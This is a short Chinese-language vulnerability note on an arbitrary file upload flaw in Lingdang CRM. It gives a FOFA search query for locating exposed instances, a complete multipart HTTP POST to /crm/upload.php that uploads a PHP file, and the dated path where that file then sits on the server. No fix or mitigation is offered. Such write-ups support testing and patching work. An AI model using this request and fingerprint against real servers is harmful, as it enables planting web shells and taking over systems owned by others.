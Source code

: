 # 灵当crm upload存在任意文件上传漏洞

# 一、漏洞简介
灵当CRM 是一款企业级客户关系管理软件。它旨在帮助企业管理客户信息、销售流程、市场营销活动和客户服务等。灵当crm存在任意文件上传漏洞，攻击者可以通过该漏洞写入恶意文件获取服务器权限。

# 二、影响版本
+ 灵当crm

# 三、资产测绘
+ fofa`body="[http://localhost:8088/crm/index.php"](http://localhost:8088/crm/index.php") && body="ldcrm.base.js"`
+ 特征

![1722999861305-1e9e41ad-ed6a-4750-918d-61a0631ad06a.png](./img/j8nQmcKhk10d4pW9/1722999861305-1e9e41ad-ed6a-4750-918d-61a0631ad06a-980852.png)

# 四、漏洞复现
```plain
POST /crm/upload.php HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----234561
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Length: 149

------234561
Content-Disposition: form-data; name="file"; filename="aa.php"
Content-Type: application/octet-stream

234561
------234561--
```

![1724488643826-3811d571-231f-4716-afa1-4b1ccc1f1146.png](./img/j8nQmcKhk10d4pW9/1724488643826-3811d571-231f-4716-afa1-4b1ccc1f1146-899092.png)

```plain
/crm/recordData/20240824/aa.php
其中20240824为当前时间
```

![1724488682774-49825d41-a6b0-4d3b-9280-1734b8fa1b04.png](./img/j8nQmcKhk10d4pW9/1724488682774-49825d41-a6b0-4d3b-9280-1734b8fa1b04-648240.png)



> 更新: 2024-10-21 11:49:37  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ilggltsrlmmqkw8h>